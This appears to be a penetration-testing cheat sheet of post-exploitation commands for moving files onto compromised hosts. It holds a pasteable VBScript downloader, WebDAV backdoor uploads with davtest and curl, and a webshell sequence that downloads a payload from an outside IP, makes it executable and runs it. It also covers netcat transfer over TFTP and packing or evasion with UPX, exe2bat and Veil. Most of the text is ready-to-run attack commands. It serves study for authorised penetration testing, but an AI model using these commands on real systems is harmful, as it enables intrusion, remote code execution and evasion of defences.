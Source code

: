 -   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

      The file can be run using the following syntax:
      
      `C:\temp\cscript.exe webdl.vbs`
      
-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files
    -------------------------------------------------------------------------------------------------------------

    -   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    -   exe2bat - Converts EXE to a text file that can be copied and
        pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    -   Veil - Evasion Framework -
        https://github.com/Veil-Framework/Veil-Evasion  
        apt-get -y install git  
        git clone https://github.com/Veil-Framework/Veil-Evasion.git  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c